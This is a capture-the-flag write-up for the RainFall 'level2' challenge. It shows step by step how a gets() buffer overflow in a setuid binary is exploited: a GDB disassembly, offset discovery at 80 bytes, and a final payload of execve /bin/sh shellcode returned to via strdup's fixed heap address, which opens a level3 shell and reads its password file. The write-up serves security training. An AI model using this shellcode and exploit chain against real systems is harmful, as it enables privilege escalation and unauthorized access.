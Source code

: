 ```sh
level2@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level2 level2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level2 level2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level2 level2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
-rw-r--r--+ 1 level2 level2   65 Sep 23  2015 .pass
-rw-r--r--  1 level2 level2  675 Apr  3  2012 .profile
level2@RainFall:~$ ./level2 
42
42
level2@RainFall:~$ ./level2 42
42
42
```
There is one excutable file **level2**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave  
   0x0804854b <+12>:    ret    
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
...
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
...
```
```p()``` use the ```gets()``` which has vulnerability buffer overflow, but the ```p()``` function checks the **EBP** register address just after function ```gets()```. this mean that function checks ```gets()``` return value came from normal memory area or buffer memory area. \
So we have to jump the compare logic.

```sh
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7f4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                = 0
gets(0xbffff6fc, 0, 0, 0xb7e5ec73, 0x80482b5)                     = 0xbffff6fc
puts("")                                                          = 1
strdup("")                                                        = 0x0804a008
```
We can find ```strdup()``` function always return in the address 0x0804a008, we can put this value in EIP with buffer overflow.
```sh
level2@RainFall:~$ python -c 'print "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0ac1ac2ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2a"' > /tmp/exploit1
...
(gdb) r < /tmp/exploit1
Starting program: /home/user/level2/level2 < /tmp/exploit1
aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab9ac0a6ac72ac3ac4ac5ac6ac7ac8ac9ad0ad1ad2a

Program received signal SIGSEGV, Segmentation fault.
0x37636136 in ?? ()
```
```sh
$> python3 level2/Ressources/helper.py
Enter the hex value to find (e.g., 0x63613563): 0x37636136
Little Endian ASCII representation: '6ac7'
'6ac7' found at offset: 80
```
With our helper.py, we can find overflow is at offset 80. \
After that, we save some shell code for execution shell, this is the [ref](https://shell-storm.org/shellcode/files/shellcode-575.html) of the shell code. \
This shell code is 21 bytes, overflow offset is 80. \
Then:
```
21 bytes(shell code) + 59 bytes(something) + 4 bytes(return address)
```
So when ```p()``` function finish, normally it returns to main function, but we did buffer overflow, so now return address is somewhere in the heap(```strdup()```'s return address). And in the heap memory, there is our shell code to execute shell.
```sh
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab3ab4ab5ab6ab7ab8ab" + "\x08\xa0\x04\x08"' > /tmp/exploit1
level2@RainFall:~$ cat /tmp/exploit1 - | ./level2
j
 X�Rh//shh/bin��1�̀aa0aa1aa2aa3aa4aa5aa6aa7aa8aa9ab0ab1ab2ab35ab6ab7ab8a�
whoami
level3
cat /user/home/level3/.pass
(hidden)
```
level2 passed!
